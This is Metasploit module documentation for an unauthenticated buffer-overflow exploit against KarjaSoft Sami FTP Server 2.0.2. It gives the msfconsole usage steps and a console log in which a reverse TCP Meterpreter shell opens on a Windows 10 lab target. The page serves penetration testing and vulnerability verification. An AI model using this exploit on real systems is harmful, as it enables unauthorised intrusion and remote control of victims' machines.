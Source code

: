 ## Vulnerable Application

This module exploits an unauthenticated stack buffer overflow in
KarjaSoft Sami FTP Server version 2.0.2 by sending an overly long
USER string during login.

The payload is triggered when the administrator opens the application
GUI. If the GUI window is open at the time of exploitation, the
payload will be executed immediately. Keep this in mind when selecting
payloads. The application will crash following execution of the
payload and will not restart automatically.

When the application is restarted, it will re-execute the payload
unless the payload has been manually removed from the SamiFTP.binlog
log file.

This module has been tested successfully on Sami FTP Server versions:

* 2.0.2 on Windows XP SP0 (x86)
* 2.0.2 on Windows 7 SP1 (x86)
* 2.0.2 on Windows 7 SP1 (x64)
* 2.0.2 on Windows 10 (1909) (x64)

## Verification Steps

Download:

* https://web.archive.org/web/20140218061003if_/http://www.karjasoft.com/files/samiftp/samiftpd_install.exe

Metasploit:

1. `msfconsole`
1. `use exploit/windows/ftp/sami_ftpd_user`
1. `set rhosts <rhosts>`
1. `exploit`

## Options

## Scenarios

### KarjaSoft Sami FTP Server version 2.0.2 on Windows 10 (1909) (x64)

```
msf6 > use exploit/windows/ftp/sami_ftpd_user 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/ftp/sami_ftpd_user) > set rhosts 172.16.191.199
rhosts => 172.16.191.199
msf6 exploit(windows/ftp/sami_ftpd_user) > check
[*] 172.16.191.199:21 - The target appears to be vulnerable. Sami FTP Server version 2.0.2.
msf6 exploit(windows/ftp/sami_ftpd_user) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.199:21 - Executing automatic check (disable AutoCheck to override)
[+] 172.16.191.199:21 - The target appears to be vulnerable. Sami FTP Server version 2.0.2.
[*] 172.16.191.199:21 - Sending payload (1414 bytes) ...
[*] Sending stage (175174 bytes) to 172.16.191.199
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.199:49874) at 2021-02-19 20:24:31 -0500

meterpreter > getuid
Server username: DESKTOP-6VPIDIM\user
meterpreter > sysinfo
Computer        : DESKTOP-6VPIDIM
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 15
Meterpreter     : x86/windows
meterpreter > 
```

